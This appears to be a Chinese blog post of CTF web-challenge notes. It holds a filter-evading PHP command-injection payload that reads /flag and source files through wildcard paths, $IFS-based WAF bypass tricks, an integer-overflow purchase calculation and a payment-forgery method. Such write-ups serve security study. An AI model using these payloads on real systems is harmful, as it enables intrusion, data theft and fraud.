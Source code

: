 ```yaml
---
layout: post
title: "web常见攻击方法"
date: 2018-10-23 15:23:57 +0800
description: ""
category: ctf/web
tags: []
---
```


```
python -m SimpleHTTPServer 80
```

## 代码审计

#### 直接命令执行

###### 极限利用（限制可执行命令的长度和字符类型）：[Web-2，安恒月赛-2018-09](http://skysec.top/2018/09/24/2018%E5%AE%89%E6%81%92%E6%9D%AF-9%E6%9C%88%E6%9C%88%E8%B5%9BWriteup/#Web2)

```php
    if(strlen($code)>35){ #限制长度小于等于35
        die("Long.");
    }
    if(preg_match("/[A-Za-z0-9_$]+/",$code)){ #限制不能使用大小写字符、数字、下划线和美元符
        die("NO.");
    }
    @eval($code);
```

原理：利用通配符`? * %`执行命令：`/???/??? => /bin/cat `，利用模板渲染回显结果：`<?=``?> `，完整利用步骤如下：

```
?><?=`/???/???%20/???/???/????/*`?>
"/bin/cat /var/www/html/index.php" #读取源码
?><?=`/???/???%20/????`;?>
"/bin/cat /flag" #读取flag
```

###### 绕过waf：ezsql，安恒月赛-2018-11

```
空格 $IFS
/    expr substr $(pwd) 1 1 #结合空格替换需要加入反斜杠区分`expr$IFS\substr$IFS$(pwd)$IFS\1$IFS\1`
     grep -ri . dir #列出dir目录下所有文件内容。-r递归遍历目录，-i忽略大小写，.匹配所有
```

## 购物商城

#### 条件竞争&整数溢出：[itshop，护网杯-2018](http://skysec.top/2018/10/13/2018%E6%8A%A4%E7%BD%91%E6%9D%AF-web-writeup/#ltshop)

一个账户的两个登陆同时买辣条，只会扣一次钱，却会得到两个辣条，利用burpsuite进行条件竞争。

整数溢出：

int： `2**32-1 = 4294967295`

long： `2**63 -1 = 9223372036854775807`

unsignedlong： `2**64-1 = 18446744073709551615`

由于5个辣条兑换1个辣条之王，构造兑换数量，使兑换数量*5溢出，小于已有辣条数量即可，因此兑换数量为：

```python
i = 2**64 // 5 + 1 # 3689348814741910324
j = i * 5 % (2 ** 64) # 4
```

#### 伪造购物用户：[ezshop，安恒月赛-2018-10](https://www.smi1e.top/?p=119#ezshop)

查询数据库user表，查到admin的用户id，订单支付的时候，将当前用户id修改为admin的用户id，伪造签名，从而使用admin的账号代为支付。

